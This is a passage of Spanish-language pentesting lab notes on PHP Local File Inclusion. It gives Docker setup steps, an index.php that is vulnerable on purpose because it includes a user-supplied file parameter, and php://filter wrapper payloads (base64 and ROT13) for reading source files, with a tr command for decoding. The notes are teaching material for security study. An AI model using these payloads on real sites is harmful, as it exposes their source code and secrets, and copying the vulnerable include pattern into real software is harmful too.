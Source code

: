 **`php://filter/convert.base64-encode/resource=index.php`**

[+] Esto podría servir para obtener el código fuente de la página en base64

Instalación de lab

```bash
docker pull ubuntu:latest
docker images
docker run -dit -p 80:80 --name wrappers <ContainerID>
docker exec -it <ContainerID> bash
apt update
apt install aache2 php nano -y
service apache2 start
cd /var/www/html/
```

Se tiene el archivo “secret.php” y un index.php con el siguiente contenido:

```bash
#----- index.php -----#
<?php
	$filename = $_GET['file'];
	include($filename);
?>

#----- secret.php -----#

<?php
	// Este texto no debería ser visible ya que debería ser interpretado
?>
```

Al buscar este archivo en la web no muestra nada:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2012.png)

Pero al utilizar un wrapper para codificar el contenido en base64, se puede obtener su contenido:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2013.png)

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2014.png)

### Wrapper - Rotar los caracteres 13 posiciones (ROT13)

**`php://filter/read=string.rot13/resource=secret.php`**

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2015.png)

Esto para decodificarlo se hace de la siguiente manera:

```bash
# Fijar el primer caracter del contenido en ROT13, en 
# este casi es "c", por lo que c-z y a-b ya que "b" está antes 
# que "c", luego se ingresa lo mismo pero en MAYUS. Luego en el 
# segundo argumento, se hace lo mismo solo que como letra inicial, 
# se ingresa la letra con la que se quiere empezar, en este caso es 
# la "p" porque se sabe que la primer cadena es "php".
cat file | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```
